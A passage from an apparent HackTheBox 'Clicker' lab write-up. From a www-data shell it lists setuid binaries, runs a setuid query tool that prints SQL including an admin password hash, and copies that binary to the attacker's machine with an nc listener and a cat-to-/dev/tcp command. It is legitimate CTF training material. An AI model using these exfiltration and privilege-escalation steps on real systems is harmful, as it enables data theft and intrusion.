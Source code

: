 ```bash
    13695     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
    39040    100 -rwsr-xr-x   1 root     root         101048 Oct 20  2022 /usr/sbin/mount.nfs
   171894     16 -rwsrwsr-x   1 jack     jack          16368 Feb 26  2023 /opt/manage/execute_query

www-data@clicker:/var/www/clicker.htb/exports$ file /opt/manage/execute_query
/opt/manage/execute_query: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cad57695aba64e8b4f4274878882ead34f2b2d57, for GNU/Linux 3.2.0, not stripped

www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query
ERROR: not enough arguments

www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query 1
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
CREATE TABLE IF NOT EXISTS players(username varchar(255), nickname varchar(255), password varchar(255), role varchar(255), clicks bigint, level int, PRIMARY KEY (username))
--------------

--------------
INSERT INTO players (username, nickname, password, role, clicks, level)
        VALUES ('admin', 'admin', 'ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82', 'Admin', 999999999999999999, 999999999)
        ON DUPLICATE KEY UPDATE username=username
--------------
```

Download the binary

```bash
┌──(bravosec㉿fsociety)-[~/htb/Clicker]
└─$ nc -lvnp 443 > execute_query
```

```bash
www-data@clicker:/var/www/clicker.htb/exports$ cat /opt/manage/execute_query>/dev/tcp/10.10.16.24/443
```

### Analyze with ghidra


#todo 

![](/assets/obsidian/e5f0b4671c0f72d2334c5fc26d7b17ff.png)
